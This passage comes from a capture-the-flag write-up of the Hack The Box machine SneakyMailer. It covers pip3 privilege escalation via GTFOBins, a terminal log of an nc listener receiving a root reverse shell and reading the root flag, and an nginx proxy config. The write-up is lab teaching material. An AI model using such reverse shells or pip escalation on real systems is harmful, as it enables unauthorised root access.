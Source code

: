 Using [GTFOBins](https://gtfobins.github.io/gtfobins/pip/), we are able to find a privilege escalation vector using pip3. 

![Privilege Escalation using pip3](https://github.com/joelczk/writeups/blob/main/HTB/Images/SneakyMailer/pip3_privilege_escalation.png)
### Obtaining root flag
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2000     
listening on [any] 2000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.197] 49178
root@sneakymailer:/tmp/pip-req-build-yfa8y78y# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```
## Post-Exploitation
### pypi.sneakycorp.htb proxy
Looking at the configuration file at /etc/nginx/site-enabled/pypi.sneakycorp.htb, we are also able to see that the configuration sets port 8080 to be the proxy for pypi.sneakycorp.htb where the traffic from http://127.0.0.1:5000 will be redirected to http://pypi.sneakycorp.htb:8080

```
server {
        listen 0.0.0.0:8080 default_server;
        listen [::]:8080 default_server;
        server_name _;
}
server {
        listen 0.0.0.0:8080;
        listen [::]:8080;
        server_name pypi.sneakycorp.htb;
        location / {
                proxy_pass http://127.0.0.1:5000;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
        }
}
```
